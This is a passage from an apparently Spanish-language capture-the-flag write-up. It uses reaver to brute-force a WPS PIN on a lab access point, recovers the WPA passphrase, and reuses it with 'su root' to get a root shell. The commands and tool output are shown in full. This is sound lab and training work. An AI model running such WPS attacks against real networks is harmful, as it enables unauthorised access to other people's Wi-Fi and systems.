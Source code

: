 Vamos a indicarle la dirección, el canal y la interfaz y rápidamente nos da el **PSK** <https://github.com/t6x/reaver-wps-fork-t6x>

```bash
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching mon0 to channel 1
[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 2 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
netadmin@wifinetic:~$ 
```

## Shell as root

Ahora que tenemos la **password** si vemos si **root** la utiliza funciona

```bash
netadmin@wifinetic:~$ su root
Password: 
root@wifinetic:/home/netadmin# whoami
root
root@wifinetic:/home/netadmin# id
uid=0(root) gid=0(root) groups=0(root)
root@wifinetic:/home/netadmin# 
```

## Root.txt 
